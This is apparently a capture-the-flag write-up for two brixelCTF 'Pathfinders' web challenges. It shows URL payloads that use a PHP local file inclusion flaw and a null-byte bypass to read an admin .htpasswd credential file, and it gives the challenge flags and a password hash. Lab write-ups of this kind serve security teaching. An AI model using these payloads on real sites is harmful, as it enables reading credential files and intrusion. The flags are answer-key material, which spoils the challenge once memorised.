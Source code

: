 > These f*cking religious sects!
These guys brainwashed my niece into their demeted world of i-readings and other such nonsense.
The feds recently closed their churches, but it seems they are preparing for a new online platform to continue their malicious activities.
can you gain access to their admin panel to shut them down?
Their website is: [http://timesink.be/pathfinder/](http://timesink.be/pathfinder/)

After visiting the page we can see that there is a file include for home.php which includes the pages in the url and executes them. 

Checking the links on the page we see that there is a admin/index.php endpoint which requires http authentication usually stored in the .htpasswd file.

Using the page parameter to access admin/.htpasswd gives us the flag.

```
view-source:http://timesink.be/pathfinder/index.php?page=admin/.htpasswd
#normally you would brute force this, but that is not in scope of this challenge. The flag is: brixelCTF{unsafe_include} <br>
admin:$apr1$941ydmlw$aPUW.gCFcvUbIcP0ptVQF0
```

## Pathfinders #2

> It seems they updated their security. can you get the password for their admin section on their new site?
[http://timesink.be/pathfinder2/](http://timesink.be/pathfinder2/)
oh yeah, let's assume they are running a php version below 5.3.4 here...

Older versions of PHP were vulnerable to [this](https://defendtheweb.net/article/common-php-attacks-poison-null-byte) attack where we can append a %00 at the end of a string and php will only include the stuff before the null byte as everything after will be ignored.

Just visiting [http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd.php](http://timesink.be/pathfinder2/index.php?page=admin/.htpasswd%00.php) gives us the flag.

```
Great work! the flag is brixelCTF{outdated_php}
```
